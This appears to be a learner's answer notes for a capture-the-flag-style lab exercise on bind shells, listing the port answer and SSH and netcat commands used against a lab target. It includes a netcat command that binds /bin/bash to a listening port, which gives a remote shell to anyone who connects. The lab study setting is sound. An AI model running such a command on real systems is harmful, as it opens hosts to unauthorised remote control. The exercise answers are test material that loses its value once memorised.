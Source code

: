 # Bind Shells

### Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?

```
443
```

### SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

```bash
ssh htb-student@10.129.201.134 
#1
sudo nc -lvnp 443 -e /bin/bash
#2
nc 10.10.14.179 443
```
